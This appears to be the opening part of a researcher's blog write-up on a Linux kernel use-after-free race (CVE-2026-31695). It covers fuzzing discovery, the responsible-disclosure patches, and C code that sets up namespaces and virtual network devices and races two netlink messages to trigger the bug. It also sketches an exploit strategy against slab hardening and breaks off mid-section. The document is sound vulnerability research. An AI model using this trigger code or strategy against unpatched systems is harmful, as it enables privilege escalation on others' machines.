Several months ago, I discovered and fixed an interesting Linux kernel vulnerability CVE-2026-31695, which was caused by a logical bug in network device management. This vulnerability had been present in the kernel code for nearly 5 years. In this article, I will describe the exploit for this vulnerability providing local privilege escalation (LPE) on Fedora 44 Server for the `x86_64` architecture. I will demonstrate how to bypass the security hardening mechanisms and gain full control over the operating system by spoofing a `struct device`. Moreover, I will explain how to make the attack absolutely stable, despite the elusive race condition during the exploitation of CVE-2026-31695. Let's go 🚀

First of all, the PoC demo video:

<div style="position:relative;padding-top:56.25%;">
  <iframe src="https://www.youtube.com/embed/6DKF2ZfdZK0" frameborder="0" allowfullscreen
    style="position:absolute;top:0;left:0;width:100%;height:100%;"></iframe>
</div>
<br/>

The bug and its exploitation are quite complicated. Describing them all at once would be difficult. That's why I'm going to describe the story of this research in chronological order instead. This would make it easier for me to explain and more interesting for you to read. By the way, for fun, I've chosen a leitmotif for this article: **cars** 🚘😎

## How I discovered this bug

Once upon a time, my customized `syzkaller` fuzzer encountered an ordinary crash in the [`__pm_runtime_resume()`](https://elixir.bootlin.com/linux/v6.19.11/source/drivers/base/power/runtime.c#L1174) kernel function:
```
 BUG: KASAN: slab-use-after-free in __pm_runtime_resume+0xe2/0xf0
 Read of size 2 at addr ffff88810cfc46f8 by task pm/606

 Call Trace:
  <TASK>
  dump_stack_lvl+0x4d/0x70
  print_report+0x170/0x4f3
  ? __pfx__raw_spin_lock_irqsave+0x10/0x10
  kasan_report+0xda/0x110
  ? __pm_runtime_resume+0xe2/0xf0
  ? __pm_runtime_resume+0xe2/0xf0
  __pm_runtime_resume+0xe2/0xf0
  ethnl_ops_begin+0x49/0x270
  ethnl_set_features+0x23c/0xab0
 ...
```

A use-after-free (UAF) read of 2 bytes didn't look very impressive from the attacker's point of view, but I decided to spend some time minimizing the reproducer for this bug.

The minimal reproducer turned out to be quite compact:
```
r0 = socket$nl_generic(0x10, 0x3, 0x10)
r1 = syz_genetlink_get_family_id$ethtool(&(0x7f0000000380), 0xffffffffffffffff)
r2 = socket$can_raw(0x1d, 0x3, 0x1)
r3 = socket$nl_route(0x10, 0x3, 0x0)
ioctl$sock_SIOCGIFINDEX(r2, 0x8933, &(0x7f0000000440)={'veth1_virt_wifi\x00', <r4=>0x0})
sendmsg$nl_route(r3, &(0x7f00000004c0)={0x0, 0x0, &(0x7f0000000480)={&(0x7f00000008c0)=@dellink={0x20, 0x11, 0x1, 0x70bd29, 0x25dfdbfe, {0x0, 0x0, 0x0, r4, 0x4a68, 0x2940}}, 0x20}}, 0xc4)
sendmsg$ETHTOOL_MSG_FEATURES_SET(r0, &(0x7f0000000540)={0x0, 0x0, &(0x7f0000000500)={&(0x7f0000000040)=ANY=[@ANYBLOB='<\x00\x00\x00', @ANYRES16=r1, @ANYBLOB="01002dbd7000fbdbdf250c000000100003800400010008000200750000001800018014000200766972745f776966693000"], 0x3c}, 0x1, 0x0, 0x0, 0x8800}, 0x90)
```

However, a large `ANYBLOB` part in it didn't look very pleasant for analysis.

To trigger the bug, I ran that syzlang reproducer the following way:
```
# ./syz-execprog -executor=./syz-executor -arch=amd64 -sandbox=namespace \
    -procs=24 -threaded=1 -repeat=0 -cover=0 pm_log
```

Decreasing the number of competing processes to fewer than 24 made the reproducer less reliable. So I realized that I had found a weird kernel race condition once again 🥲. Moreover, the `syz-prog2c` program failed to generate a working reproducer written in C. Nevertheless, I decided to investigate and rewrite it manually.

<center></center><br>

First of all, I found the minimal kernel compile-time configuration required to trigger the crash. My kernel `.config` for fuzzing was very close to the Fedora Server configuration, and rebuilding the kernel for the experiments took a significant amount of time. To cope with that, I:
 - Took `defconfig`,
 - Enabled `CONFIG_KASAN` to be able to detect the memory corruption,
 - Enabled `CONFIG_DEBUG_INFO_DWARF_TOOLCHAIN_DEFAULT` and disabled `CONFIG_RANDOMIZE_BASE` for easier debugging,
 - Enabled `CONFIG_ZRAM`, `CONFIG_ZRAM_DEF_COMP="lzo-rle"`, `CONFIG_ZRAM_WRITEBACK`, and `CONFIG_ZRAM_MULTI_COMP`, which are needed to boot Fedora Server,
 - Found out that I needed `CONFIG_USER_NS=y`, `CONFIG_VETH=m`, and `CONFIG_VIRT_WIFI=m` to provoke my crash as an unprivileged user. Good.

Then I used the `syz-prog2c` tool from the `syzkaller` project to generate a C equivalent of the syzlang reproducer:
```
# ./bin/syz-prog2c -arch=amd64 -sandbox=namespace -tmpdir -procs=24 \
    -threaded=1 -repeat=0 -slowdown=1 -vv=10 -enable=net_dev -prog=pm_log > pm_log.c
```

As I mentioned, this program in C was not able to provoke the crash, so I started to rework it in parallel with learning the affected kernel code and adding `printk()` debugging there. My goal was to make this C reproducer work identically to my syzlang reproducer, and I also wanted to understand the kernel bug along the way.

Slowly, step by step, I managed to create an unstable reproducer of this race condition and UAF, which used only two pthreads.

## How to reproduce this kernel race condition

This race condition in the kernel happens when two userspace threads simply send two netlink messages:

 1. the `RTM_DELLINK` routing message,

 2. the `ETHTOOL_MSG_FEATURES_SET` command from the netlink family `ethtool`.

<center></center><br>

But first, the attacker should create all the needed network device infrastructure:

 - Call `unshare(CLONE_NEWUSER | CLONE_NEWNET | CLONE_NEWNS)` to make the exploit process unshare the user, network, and mount namespaces from other processes.

 - Become root inside the newly created user namespace:

```c
	fd = open("/proc/self/setgroups", O_WRONLY);
	if (fd < 0)
		err_exit("[-] open setgroups");
	ret = dprintf(fd, "deny");
	close(fd);
	if (ret < 0)
		err_exit("[-] dprintf setgroups");

	fd = open("/proc/self/uid_map", O_WRONLY);
	if (fd < 0)
		err_exit("[-] open uid_map");
	ret = dprintf(fd, "0 %d 1\n", uid);
	close(fd);
	if (ret < 0)
		err_exit("[-] dprintf uid_map");

	fd = open("/proc/self/gid_map", O_WRONLY);
	if (fd < 0)
		err_exit("[-] open gid_map");
	ret = dprintf(fd, "0 %d 1\n", gid);
	close(fd);
	if (ret < 0)
		err_exit("[-] dprintf gid_map");
```

 - Prepare a socket via `socket(AF_NETLINK, SOCK_RAW, NETLINK_ROUTE)` and use it to send netlink messages creating some network devices:

```c
	ret = netlink_add_veth(&nlmsg, sock, "veth0", "veth1");
	if (ret) {
		printf("[-] netlink_add_veth\n");
		close(sock);
		return EXIT_FAILURE;
	}

	ret = netlink_add_linked(&nlmsg, sock, "virt_wifi", "virt_wifi0", "veth1");
	close(sock);
	if (ret) {
		printf("[-] netlink_add_linked\n");
		return EXIT_FAILURE;
	}
```

I employed the [`netlink_add_veth()`](https://github.com/google/syzkaller/blob/41d151d4171fac5301e916969f41a05ae18d7672/executor/common_linux.h#L410) and [`netlink_add_linked()`](https://github.com/google/syzkaller/blob/41d151d4171fac5301e916969f41a05ae18d7672/executor/common_linux.h#L461) netlink helpers from the `syzkaller` project, which were quite convenient (the netlink API is crazy complicated 😩😅).

Here `netlink_add_veth()` creates a pair of linked virtual Ethernet interfaces `veth0` and `veth1` in the current network namespace. Then `netlink_add_linked()` adds a `virt_wifi` device named `virt_wifi0`, which becomes a child device of the **parent** `veth1`. That's all we need to start the race.

<center></center><br>

> An important aspect: I pin the PoC exploit process to CPU 0 using `sched_setaffinity()` before creating these network devices, because I want their kernelspace allocation to happen on CPU 0. I need that for stable UAF exploitation (more details later).

For racing, I create two pthreads. The first one also runs on CPU 0 and destroys the `veth1` interface via the `RTM_DELLINK` netlink routing message:

```c
	sock = socket(AF_NETLINK, SOCK_RAW, NETLINK_ROUTE);
	if (sock < 0) {
		perror("[-] sock th_f0");
		return NULL;
	}

	ifindex = if_nametoindex("veth1");
	if (ifindex == 0) {
		perror("[-] if_nametoindex");
		goto out;
	}

	memset(&ifinfo, 0, sizeof(ifinfo));
	ifinfo.ifi_index = ifindex;
	netlink_init(&nlmsg, RTM_DELLINK, 0, &ifinfo, sizeof(ifinfo));

	ret = thread_sync(0);
	if (ret != EXIT_SUCCESS)
		goto out;

	netlink_send(&nlmsg, sock);
```

The second pthread is allowed to run on any other CPU **except** CPU 0. In this pthread, I perform the `ETHTOOL_MSG_FEATURES_SET` command for the `virt_wifi0` device:

 1. Create an `AF_NETLINK` socket for the `NETLINK_GENERIC` protocol.

 2. Determine the generic netlink family ID for `ethtool` using the [`netlink_query_family_id()`](https://github.com/google/syzkaller/blob/41d151d4171fac5301e916969f41a05ae18d7672/executor/common_linux.h#L330) helper from the syzkaller project.

 3. Use that ID to send a netlink message performing the `ETHTOOL_MSG_FEATURES_SET` command for `virt_wifi0`. Writing this part was challenging.

## Fighting ~~together with~~ against an LLM

To call `ETHTOOL_MSG_FEATURES_SET` properly (and understand the kernel bug), I had to reverse-engineer the following binary blob generated by syzkaller:

```c
	*(uint64_t *)0x200000000540 = 0;
	*(uint32_t *)0x200000000548 = 0;
	*(uint64_t *)0x200000000550 = 0x200000000500;
	*(uint64_t *)0x200000000500 = 0x200000000040;
	memcpy((void *)0x200000000040, "<\000\000\000", 4);
	*(uint16_t *)0x200000000044 = r[1];
	memcpy((void *)0x200000000046,
	       "\x01\x00\x2d\xbd\x70\x00\xfb\xdb\xdf\x25\x0c\x00\x00\x00\x10\x00\x03"
	       "\x80\x04\x00\x01\x00\x08\x00\x02\x00\x75\x00\x00\x00\x18\x00\x01\x80"
	       "\x14\x00\x02\x00\x76\x69\x72\x74\x5f\x77\x69\x66\x69\x30\x00",
	       49);
	*(uint64_t *)0x200000000508 = 0x3c;
	*(uint64_t *)0x200000000558 = 1;
	*(uint64_t *)0x200000000560 = 0;
	*(uint64_t *)0x200000000568 = 0;
	*(uint32_t *)0x200000000570 = 0x8800;
	syscall(__NR_sendmsg, /*fd=*/r[0], /*msg=*/0x200000000540ul, /*f=MSG_PROBE|MSG_EOR*/ 0x90ul);
```

The syzkaller hints describing this blob were obscure as well 🤯:

```c
	//          iovec[in, netlink_msg_t[genl_ethtool_family_id,
	//          genlmsghdr_t[ETHTOOL_MSG_FEATURES_SET],
	//          ethnl_features_set_policy]] {
	//            addr: ptr[inout, array[ANYUNION]] {
	//              array[ANYUNION] {
	//                union ANYUNION {
	//                  ANYBLOB: buffer: {3c 00 00 00} (length 0x4)
	//                }
	//                union ANYUNION {
	//                  ANYRES16: ANYRES16 (resource)
	//                }
	//                union ANYUNION {
	//                  ANYBLOB: buffer: {01 00 2d bd 70 00 fb db df 25 0c 00 00
	//                  00 10 00 03 80 04 00 01 00 08 00 02 00 75 00 00 00 18 00
	//                  01 80 14 00 02 00 76 69 72 74 5f 77 69 66 69 30 00}
	//                  (length 0x31)
	//                }
	//              }
	//            }
	//            len: len = 0x3c (8 bytes)
	//          }
```

I found some very poor [kernel documentation](https://www.kernel.org/doc/html/latest/networking/ethtool-netlink.html) about the netlink interface for ethtool. However, it didn't help to understand the message contents that much. No surprise, as we all know, the best Linux kernel documentation is the source code 😅.

So I tried to use an open-weight LLM (`Qwen3.5-397B-A17B-FP8` at that time) to do reverse engineering. It turned out to be a funny wrestling match between me and Qwen:

<center></center><br>

 1. I asked Qwen to reimplement this netlink code -- it returned plenty of AI slop that didn't trigger the bug.

 2. Then I provided the LLM with the netlink helpers from syzkaller and asked it to use them. After multiple attempts, the results improved a bit, but the kernel crash was still not triggered.

 3. I took gdb and tried a byte-by-byte comparison between the blob generated by syzkaller and the netlink message created by the LLM. They looked different:

```c
gef> hd byte 0x200000000040 60
0x200000000040:    38 00 00 00 17 00 05 00  00 00 00 00 00 00 00 00    |  8...............  |
0x200000000050:    0c 00 00 00 0c 00 03 80  08 00 04 00 75 00 00 00    |  ............u...  |
0x200000000060:    18 00 01 80 14 00 02 00  76 69 72 74 5f 77 69 66    |  ........virt_wif  |
0x200000000070:    69 30 00 00 00 00 00 00  00 00 00 00                |  i0..........      |
gef> hd byte msg.msg_iov.iov_base 60
0x7fffffffc650:    34 00 00 00 17 00 05 00  00 00 00 00 00 00 00 00    |  4...............  |
0x7fffffffc660:    0c 00 00 00 0c 00 03 80  08 00 04 00 75 00 00 00    |  ............u...  |
0x7fffffffc670:    14 00 01 80 0e 00 02 00  76 69 72 74 5f 77 69 66    |  ........virt_wif  |
0x7fffffffc680:    69 30 00 00 00 00 00 00  00 00 00 00                |  i0..........      |
```

After multiple useless attempts to make the LLM remove the difference, I just realized that **Qwen is trying to justify the weird bytes generated by the fuzzer**! The LLM hallucinates and makes up nonexistent netlink headers and flags just to assure me that it completely understands the deep meaning of the garbage bytes 🤯😂.

So I stopped asking the LLM to generate C code and instead requested it to describe to me the internal structure of this netlink message. The result was not precise, but it helped me to improve my knowledge of the netlink protocol a bit.

Step by step, I manually simplified the bytes in the binary blob provoking a crash and finally wrote the following code:

```c
	struct genlmsghdr genlhdr;
	struct nlmsg nlmsg;
	char *dev_name = "virt_wifi0";
	uint32_t bits = 0x42;

	memset(&genlhdr, 0, sizeof(genlhdr));
	genlhdr.cmd = ETHTOOL_MSG_FEATURES_SET;
	netlink_init(&nlmsg, nl_family_id, 0, &genlhdr, sizeof(genlhdr));

	netlink_nest(&nlmsg, ETHTOOL_A_FEATURES_HEADER | NLA_F_NESTED);
	netlink_attr(&nlmsg, ETHTOOL_A_HEADER_DEV_NAME, dev_name, strlen(dev_name) + 1);
	netlink_done(&nlmsg);

	netlink_nest(&nlmsg, ETHTOOL_A_FEATURES_WANTED | NLA_F_NESTED);
	netlink_attr(&nlmsg, ETHTOOL_A_BITSET_VALUE, &bits, sizeof(bits));
	netlink_done(&nlmsg);
```

After preparing this netlink message, I sent it to the `NETLINK_GENERIC` socket to perform the `ETHTOOL_MSG_FEATURES_SET` command for `virt_wifi0`, which allowed me to gain UAF in the kernel:

```c
	struct nlmsghdr *nlmsghdr_ptr = NULL;
	struct msghdr msg;
	struct iovec iov;

	nlmsghdr_ptr = (struct nlmsghdr *)nlmsg.buf;
	nlmsghdr_ptr->nlmsg_len = nlmsg.pos - nlmsg.buf;

	memset(&msg, 0, sizeof(msg));
	msg.msg_iov = &iov;
	msg.msg_iovlen = 1;
	iov.iov_base = nlmsghdr_ptr;
	iov.iov_len = nlmsghdr_ptr->nlmsg_len;

	ret = thread_sync(0);
	if (ret != EXIT_SUCCESS)
		goto out;

	if (sendmsg(sock, &msg, 0) < 0)
		perror("[-] sendmsg ETHTOOL_MSG_FEATURES_SET");
```

You may have noticed that in both racing threads I call `thread_sync()`. In that function, I use `pthread_barrier_wait()` to synchronize the racing pthreads before they execute `RTM_DELLINK` for parent `veth1` and `ETHTOOL_MSG_FEATURES_SET` for child `virt_wifi0`.

## CVE-2026-31695 analysis

Rewriting the crash reproducer and adding plenty of `printk()` debugging in the kernel helped me to finally understand the race condition.

 - When my PoC performs `RTM_DELLINK` for the `veth1` network interface, the kernel calls [`rtnl_dellink()`](https://elixir.bootlin.com/linux/v6.19.11/source/net/core/rtnetlink.c#L3556), which executes [`netdev_run_todo()`](https://elixir.bootlin.com/linux/v6.19.11/source/net/core/dev.c#L11665) unregistering the `net_device` structure.

 - `netdev_run_todo()` takes three devices -- `virt_wifi0`, `veth1`, and `veth0` -- from the `net_todo_list` and moves each of them into the `NETREG_UNREGISTERED` state in a loop:

```c
	list_for_each_entry_safe(dev, tmp, &list, todo_list) {
		if (unlikely(dev->reg_state != NETREG_UNREGISTERING)) {
			netdev_WARN(dev, "run_todo but not unregistering\n");
			list_del(&dev->todo_list);
			continue;
		}

		netdev_lock(dev);
		WRITE_ONCE(dev->reg_state, NETREG_UNREGISTERED);
		netdev_unlock(dev);
		linkwatch_sync_dev(dev);
	}
```

> An important aspect: `struct net_device` contains `struct device dev` inside, which has the `struct device *parent` pointer. In my particular situation, `dev.parent` in `virt_wifi0` points to `struct device` inside `veth1`.

<center></center><br>

 - Then `netdev_run_todo()` tries to free these three net devices in another loop. On each iteration, it chooses a device to free via the following kernel function:

```c
	dev = netdev_wait_allrefs_any(&list);
```

 - At this particular moment, another thread of my PoC executes `ETHTOOL_MSG_FEATURES_SET` for `virt_wifi0` (the ethtool operations may be performed on a net device that is currently being unregistered). The kernel handles this command in [`ethnl_set_features()`](https://elixir.bootlin.com/linux/v6.19.11/source/net/ethtool/features.c#L212). This function calls `ethnl_parse_header_dev_get()`, which takes a reference to `virt_wifi0` (in other words, makes it busy).

 - If the race condition succeeds, `netdev_run_todo()` frees only `veth1` and `veth0`, and then, on the third iteration of the loop, it starts waiting for the busy `virt_wifi0`.

 - Meanwhile, `ethnl_set_features()` is performed for `virt_wifi0`. That `net_device` structure is already in the `NETREG_UNREGISTERED` state. If I call `printk()` for `to_net_dev(dev->dev.parent)`, where `dev` is a pointer to the `virt_wifi0` `net_device`, I see the address of the `veth1` `net_device`, which has been freed in `netdev_run_todo()`!

 - The `ethnl_set_features()` function calls `ethnl_ops_begin()` for `virt_wifi0`. But `ethnl_ops_begin()` calls `pm_runtime_get_sync(dev->dev.parent)` before even checking `dev->reg_state`. It's a kernel UAF, boom!

The diagram of the race condition provoked by my PoC looks like this:

<center></center><br>

**Why is it a vulnerability?** This bug can be triggered by an unprivileged user who is able to employ user namespaces, so it can be exploited for a local privilege escalation.

## Responsible disclosure

After exhaustively diving into the root cause of the bug, I found a solution: we can check the net device `reg_state` in `ethnl_ops_begin()` **before** calling [`pm_runtime_get_sync(struct device *dev)`](https://elixir.bootlin.com/linux/v6.19.11/source/include/linux/pm_runtime.h#L497) for its parent device to avoid use-after-free:

```diff
diff --git a/net/ethtool/netlink.c b/net/ethtool/netlink.c
index 6e5f0f4f815a..1cdedd1af24d 100644
--- a/net/ethtool/netlink.c
+++ b/net/ethtool/netlink.c
@@ -94,17 +94,16 @@ int ethnl_ops_begin(struct net_device *dev)
 	if (!dev)
 		return -ENODEV;
 
-	if (dev->dev.parent)
-		pm_runtime_get_sync(dev->dev.parent);
-
 	netdev_ops_assert_locked(dev);
 
 	if (!netif_device_present(dev) ||
 	    dev->reg_state >= NETREG_UNREGISTERING) {
-		ret = -ENODEV;
-		goto err;
+		return -ENODEV;
 	}
 
+	if (dev->dev.parent)
+		pm_runtime_get_sync(dev->dev.parent);
+
 	if (dev->ethtool_ops->begin) {
 		ret = dev->ethtool_ops->begin(dev);
 		if (ret)
```

I figured out that the race condition was introduced by commit [d43c65b05b84](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=d43c65b05b848e0b2db1a6c78b02c189da3a95b5). Therefore, the vulnerability had been present in the kernel code for nearly 5 years.

First, I reported the vulnerability and provided my patch to `security@kernel.org`. They recommended that I send the patch to the public Linux kernel mailing list (LKML).

My patch provoked a [discussion](https://lore.kernel.org/all/20260322075917.254874-1-alex.popov@linux.com/T/#u) on LKML. Surprisingly, the reaction from some kernel maintainers was somewhat harsh.

As a result, the maintainers decided that it was better to keep the bug in ethtool and change the link creation in the `virt_wifi` driver instead. In response, I prepared [a second patch](https://lore.kernel.org/all/20260324224607.374327-1-alex.popov@linux.com/T/#u) for `virt_wifi`, which fixes the UAF in another way:

```
Currently we execute `SET_NETDEV_DEV(dev, &priv->lowerdev->dev)` for
the virt_wifi net devices. However, unregistering a virt_wifi device in
netdev_run_todo() can happen together with the device referenced by
SET_NETDEV_DEV().

It can result in use-after-free during the ethtool operations performed
on a virt_wifi device that is currently being unregistered. Such a net
device can have the `dev.parent` field pointing to the freed memory,
but ethnl_ops_begin() calls `pm_runtime_get_sync(dev->dev.parent)`.

Let's remove SET_NETDEV_DEV for virt_wifi to avoid bugs like this:

 ==================================================================
 BUG: KASAN: slab-use-after-free in __pm_runtime_resume+0xe2/0xf0
 Read of size 2 at addr ffff88810cfc46f8 by task pm/606
 ...
```

The code changes are very small:

```diff
diff --git a/drivers/net/wireless/virtual/virt_wifi.c b/drivers/net/wireless/virtual/virt_wifi.c
index 885dc7243e8d..97bd39d89e98 100644
--- a/drivers/net/wireless/virtual/virt_wifi.c
+++ b/drivers/net/wireless/virtual/virt_wifi.c
@@ -557,7 +557,6 @@ static int virt_wifi_newlink(struct net_device *dev,
 	eth_hw_addr_inherit(dev, priv->lowerdev);
 	netif_stacked_transfer_operstate(priv->lowerdev, dev);
 
-	SET_NETDEV_DEV(dev, &priv->lowerdev->dev);
 	dev->ieee80211_ptr = kzalloc_obj(*dev->ieee80211_ptr);
 
 	if (!dev->ieee80211_ptr) {
```

This patch was [applied](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=789b06f9f39cdc7e895bdab2c034e39c41c8f8d6) to the Linux kernel mainline and also ported to the following stable and longterm kernel branches:

 - v6.19 (stable branch at that time)
 - v6.18
 - v6.12
 - v6.6
 - v6.1
 - v5.15

I waited for a couple of weeks after that and then sent an email to `cve@kernel.org` asking them to assign a CVE identifier to the bug. Finally, [CVE-2026-31695](https://lore.kernel.org/linux-cve-announce/2026050141-CVE-2026-31695-813b@gregkh/T/#u) has been announced at [linux-cve-announce.vger.kernel.org](https://lore.kernel.org/linux-cve-announce/) 🏁.

## About memory corruption

Now let me describe the memory corruption that happens in the case of the race condition between `RTM_DELLINK` for parent `veth1` and `ETHTOOL_MSG_FEATURES_SET` for child `virt_wifi0`. To investigate it, I used the `kasan_multi_shot` kernel boot parameter, which forced KASAN to report all accesses to the freed memory during `ethnl_ops_begin()`.

As I described, `ethnl_ops_begin()` for `virt_wifi0` calls `pm_runtime_get_sync()` for `struct device` inside the freed `veth1`. As `kasan_multi_shot` showed, this function performs 91 UAF accesses 😯:

```
$ cat out12_kasan_sym | grep -i BUG: -A1
BUG: KASAN: slab-use-after-free in __pm_runtime_resume+0xe2/0xf0 drivers/base/power/runtime.c:1190
Read of size 2 at addr ffff88800e6f86f0 by task pm/857
--
BUG: KASAN: slab-use-after-free in __pm_runtime_resume+0xec/0xf0 drivers/base/power/runtime.c:1190
Read of size 4 at addr ffff88800e6f86fc by task pm/857
--
BUG: KASAN: slab-use-after-free in instrument_atomic_read_write include/linux/instrumented.h:96 [inline]
BUG: KASAN: slab-use-after-free in atomic_inc include/linux/atomic/atomic-instrumented.h:435 [inline]
BUG: KASAN: slab-use-after-free in __pm_runtime_resume+0xd1/0xf0 drivers/base/power/runtime.c:1194
Write of size 4 at addr ffff88800e6f86e8 by task pm/857
--
...
$ cat out12_kasan_sym | grep "of size .* at addr .* by task" | wc -l
91
```

UAF is performed on the `struct device` inside the freed `struct net_device`, which lives in the `kmalloc-cg-4k` slab cache:

```
The buggy address belongs to the object at ffff8880275ac000
 which belongs to the cache kmalloc-cg-4k of size 4096
The buggy address is located 1888 bytes inside of
 freed 4096-byte region [ffff8880275ac000, ffff8880275ad000)
```

## First thoughts on exploit strategy

When I inspected the UAF accesses, I noticed that the kernel didn't dereference any pointer from the freed memory. The `pm_runtime_get_sync()` kernel function performed reads and writes of only 1, 2, or 4 bytes inside the freed `struct device`.

 - 👎 On the one hand, that did **not** look good for exploitation. If the kernel dereferenced a pointer located in the freed `struct device`, that would provide an arbitrary address reading or writing (AARW), which would be a serious bid for victory. But I didn't find such an exploit primitive in `pm_runtime_get_sync()`, alas!

 - 👍 On the other hand, during this race condition, the kernel didn't do anything causing a crash. So I came to the conclusion that it was my chance to develop a 100% stable PoC exploit.

My basic idea was to perform a classical UAF exploitation via type confusion:

<center></center><br>

In other words, I wanted to make the Linux kernel allocate a memory page containing controlled data in place of the freed `veth1` before `pm_runtime_get_sync()` was executed. That would make the `pm_runtime_get_sync()` function use my fake `struct device` as an argument:

<center></center><br>

To implement this idea, I needed to:

 1. Invent how to reliably hit the race condition between `RTM_DELLINK` and `ETHTOOL_MSG_FEATURES_SET`.

 2. Find out how to perform kernel heap spraying and reallocate the freed `struct device` with controlled data **before** UAF in `pm_runtime_get_sync()`.

 3. Make the kernel do something dangerous in the `pm_runtime_get_sync()` function when it works with my fake `struct device`.

## Entering the obstacle race

At that point in my research, I encountered several difficulties.

**Obstacle #️⃣1️⃣**. It was time to disable KASAN, remove `printk()` debugging, and try to reproduce the bug on a normal kernel build. I rebuilt Linux without debugging, and the timing diagram of the race condition changed dramatically: the vulnerable kernel code became much faster, and the race window shrank. Aligning the threads and hitting the bug became much harder.

**Obstacle #️⃣2️⃣**. The kernel in modern GNU/Linux distributions (including Fedora Server, which I targeted) is compiled with the Kconfig options that neutralize naive heap spraying for UAF exploitation:
 - `CONFIG_SLAB_BUCKETS=y`, which creates a set of separate slab caches for allocations with user-controlled data,
 - `CONFIG_RANDOM_KMALLOC_CACHES=y`, which creates multiple copies of slab caches for normal `kmalloc()` allocations and makes `kmalloc()` randomly pick one based on the code address.

An attacker can bypass these security hardening features using a cross-cache attack, but CVE-2026-31695 doesn't provide enough time to execute it.

**Obstacle #️⃣3️⃣**. Moreover, I realized that UAF in thread #1 (`ETHTOOL_MSG_FEATURES_SET`) happens **earlier** than thread #0 finishes sending the `RTM_DELLINK` routing message. Indeed, the first thread is waiting in `netdev_run_todo()` when the second one executes `pm_runtime_get_sync()`. Therefore, unfortunately, it was impossible to perform heap spraying in thread #0 just after sending `RTM_DELLINK`, which freed `veth1`.

<center></center><br>

However, as I described, this bug had one positive aspect: the kernel didn't crash if I hit the race condition and missed the opportunity to reallocate the freed `struct device` before UAF in `pm_runtime_get_sync()`. So I could safely try to exploit this bug multiple times.

## How I won this race

To experiment with this kernel race condition, I developed the following funny patch to detect memory corruption without KASAN:

 - Write a magic number 7 to `net_device.reg_state` right after freeing the `net_device` in `netdev_release()`:

